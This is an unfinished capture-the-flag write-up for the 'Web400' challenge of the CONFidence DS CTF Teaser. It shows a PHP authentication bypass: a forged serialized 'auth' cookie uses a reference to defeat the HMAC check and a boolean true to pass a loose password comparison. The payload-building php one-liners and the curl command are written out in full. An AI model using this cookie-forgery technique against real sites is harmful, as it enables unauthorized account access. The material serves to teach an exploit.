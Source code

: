 # CONFidence DS CTF Teaser: Web400

**Category:** Web
**Points:** 400
**Description:**

> Fiery Technologies has created a new login system, where all secret messages are encoded. Please, check if you can bypass the authorization and read dragon's private stuff: <http://23.253.207.102/>

## Write-up

The website says:

> **You're not logged in.**
>
> Welcome to our new security system. You can try the demo version of the script here. For sure you'll be pleased.
>
> Use below credentials to try out our unbreakable message system:
>
> « guest:guest »
>
> We'll be looking forward your order.

Logging in with username `guest` and password `guest`, we get another message:

> You're logged in as guest!
> Source code of our newest system is available here:
>
> [« demo.zip &raquo;](demo)

[Unzipping this `demo.zip` file](demo) reveals some parts of the website’s source code.

[`database.php`](demo/database.php) contains the following:

```php
<?php

$database = array(

  array(
    'username' => 'guest',
    'password' => '084e0343a0486ff05530df6c705c8bb4',
    'secret_message' =>
    'ae7d55f7e2af728e7408d50677324732bca66dbd49f7b5f02956a0cc948648c715c6e988c8a178ba0b3b7aea83911b4ba8560831af16bfc8c6aa0f30f94c4fd5013b63d44364ea6f365cf059a3c8f8a6887944152af1de6e187248595ab9956a7479890a5e6ed4e95ff7e136b54030f8c239b33d042f5811f76af989ef0bd09e2b0a5619179f9ec2790f3a89f249769a207619d3b4c8c7384d91429ed07820206fcd127dc6cb873bb19395eaa385799fda5cf3e8ff6d094a6c7a8cb385320083ce2494800b1195a727b2e0ebf3f88e9a3220600ca024d5ebdbd680b3e13c660a'
  ),

  array(
    'username' => 'dragon',
    'password' => '[put md5 of your secret password here]',
    'secret_message' =>
    '[order the full version of the script to get encryption module]'
  )

);
```

The first item checks out – `084e0343a0486ff05530df6c705c8bb4` is the MD5 hash of `guest`, the password for the `guest` account we just used to login. The second array item is missing the juicy info, but at least now we know the username of the account we’re supposed to hack in to: `dragon`.

[The `auth.php` file](demo/auth.php) determines whether a login was successful or not:

```php
$auth = $_COOKIE['auth'];
if(get_magic_quotes_gpc())
  $auth = stripslashes($auth);
$auth = unserialize($auth);

if(!is_array($auth))
  return false;

$auth['hmac_t'] = sha1(sha1($auth['username'].$auth['hmac_t'].$auth['password']).$secret_salt);

if($auth['hmac_t'] !== $auth['hmac'])
  return false;
```

As we can see, the value of the `auth` cookie gets `unserialize()`d. There is a subtle unsafe unserialization vulnerability here that allows us to bypass the `$auth['hmac_t'] === $auth['hmac'])` check: since we control the value of the `auth` cookie, we can control the value of `$auth`, [as long as it’s an array](demo/auth.php#L11-12).

The [PHP `serialize()` documentation](http://php.net/serialize) contains this nugget:

> `serialize()` handles all types, except the resource-type. You can even `serialize()` arrays that contain references to itself. Circular references inside the array/object you are serializing will also be stored. Any other reference will be lost.

In this case, we can construct a custom array with the expected `username`, `password`, and `hmac` fields, and then add a `hmac_t` field that references the `hmac` field directly. The value for the `hmac` field doesn’t even matter:

```bash
$ php -r '$a = array("username" => "dragon", "password" => "???", "hmac" => "https://github.com/ctfs/write-ups"); $a["hmac_t"] = &$a["hmac"]; echo urlencode(serialize($a)) . "\n";'
a%3A4%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22dragon%22%3Bs%3A8%3A%22password%22%3Bs%3A3%3A%22%3F%3F%3F%22%3Bs%3A4%3A%22hmac%22%3Bs%3A33%3A%22https%3A%2F%2Fgithub.com%2Fctfs%2Fwrite-ups%22%3Bs%3A6%3A%22hmac_t%22%3BR%3A4%3B%7D
```

Using this as the value of the `auth` cookie, we effectively bypass the `$auth['hmac_t'] === $auth['hmac'])` check. We’re still not logged in however, because of this code:

```php
$message = '';

foreach($database as $row)
{
  if($row['username'] == $auth['username'])
  if($row['password'] == $auth['password'])
  {
    $message = $row['secret_message'];
    return true;
  }
}

return false;
```

We know the expected username is `dragon`, so the `if($row['username'] == $auth['username'])` check is not a problem. We still need to make sure `$row['password'] == $auth['password']` holds true, though. `$row['password']` holds the MD5 hash of the password for the user `dragon` – a value we don’t know. How can we make our `$auth['password']` value be equal to it without knowing the right value? Luckily, [PHP’s crazy `==` operator](http://gynvael.coldwind.pl/?id=492) is being used here rather than the more sensical `===`. This allows us to use a non-string value for `$auth['password']` that will still equal any string, such as the boolean `true`. (Seriously, check out that last link link for more examples. PHP is crazy.)

```bash
$ php -r '$a = array("username" => "dragon", "password" => true, "hmac" => "https://github.com/ctfs/write-ups"); $a["hmac_t"] = &$a["hmac"]; echo urlencode(serialize($a)) . "\n";'
a%3A4%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22dragon%22%3Bs%3A8%3A%22password%22%3Bb%3A1%3Bs%3A4%3A%22hmac%22%3Bs%3A33%3A%22https%3A%2F%2Fgithub.com%2Fctfs%2Fwrite-ups%22%3Bs%3A6%3A%22hmac_t%22%3BR%3A4%3B%7D
```

Using this as the value of the `auth` cookie, we’re successfully logged in as the `dragon` user!

```bash
$ curl --cookie 'auth=a%3A4%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22dragon%22%3Bs%3A8%3A%22password%22%3Bb%3A1%3Bs%3A4%3A%22hmac%22%3Bs%3A33%3A%22https%3A%2F%2Fgithub.com%2Fctfs%2Fwrite-ups%22%3Bs%3A6%3A%22hmac_t%22%3BR%3A4%3B%7D' 'http://23.253.207.102/' > message.html
```

The response ([available as `message.html`](message.html)) contains the following message:

```bash
$ hexdump -C -s 0x520 message.html | head -n 23
00000520  64 69 76 20 63 6c 61 73  73 3d 22 63 6f 6e 74 61  |div class="conta|
00000530  69 6e 65 72 22 3e 0a 83  b3 6a 91 15 3e 36 d6 45  |iner">...j..>6.E|
00000540  b3 cc 5b 24 e3 49 c4 d5  f8 6a dd 64 85 7e 1b 6d  |..[$.I...j.d.~.m|
00000550  6c 04 8a eb d5 47 bd c8  05 ab d8 64 8c 37 d6 45  |l....G.....d.7.E|
00000560  7b 03 4e 09 7d f4 bd 83  b3 6a 91 15 3e 53 26 47  |{.N.}....j..>S&G|
00000570  8f 0a 8b 32 e6 36 11 d8  ff ab e5 5e 8d 85 29 2a  |...2.6.....^..)*|
00000580  6b f4 8c 40 9b 4b 02 83  f9 b9 e6 63 82 37 2a 71  |k..@.K.....c.7*q|
00000590  b0 bb 83 37 d5 3b d7 9f  c2 ba ae ff 3e 36 d6 29  |...7.;......>6.)|
000005a0  6b bb 3c eb b0 44 db 9f  f4 6a d4 61 7f 8a 29 46  |k.<..D...j.a..)F|
000005b0  6d fd 91 39 94 37 11 d1  c0 ba e3 5e 8b 78 28 82  |m..9.7.....^.x(.|
000005c0  6b fd 91 39 a1 41 04 85  b3 bc e0 61 83 53 d8 6b  |k..9.A.....a.S.k|
000005d0  c1 0f 91 3a e1 f6 bd cc  05 af d7 32 40 81 17 7f  |...:.......2@...|
000005e0  ad 0e 80 3d dd 45 11 9e  09 b9 da 59 46 87 28 78  |...=.E.....YF.(x|
000005f0  b9 0b 90 f3 9b 29 05 c8  b3 90 dd 56 85 3d e2 30  |.....).....V.=.0|
00000600  90 0d 84 39 c7 4f cf 9c  ca 7b d7 2d 54 7d 19 40  |...9.O...{.-T}.@|
00000610  ac cc 52 fc d8 09 ce 97  f8 81 d5 57 82 78 1a 3e  |..R........W.x.>|
00000620  af fd 83 2c a6 0b 1a 8a  bc 73 93 33 44 83 17 7a  |...,.....s.3D..z|
00000630  c1 0a 57 eb b8 47 04 d1  e6 c5 a3 2e 55 48 1c 41  |..W..G......UH.A|
00000640  82 01 80 02 d5 05 d3 94  f7 7f a2 29 83 4e 1a 6b  |...........).N.k|
00000650  af fc 81 00 d8 37 03 c4  c5 80 ee 15 44 89 17 7a  |.....7......D..z|
00000660  c1 0a 58 07 a3 35 db 63  93 4a 70 f5 1e 16 b6 09  |..X..5.c.Jp.....|
00000670  4b 9b 1d 07 a3 44 db 0a  20 20 20 20 20 20 3c 2f  |K....D..      </|
00000680  64 69 76 3e 0a 20 20 20  20 3c 2f 64 69 76 3e 0a  |div>.    </div>.|
```

The message is garbled because it has been decrypted using the incorrect password we provided.

(TODO)

## Other write-ups and resources

* [Solution by phiber](https://gist.github.com/anonymous/c40c5e90482eed1151e5)
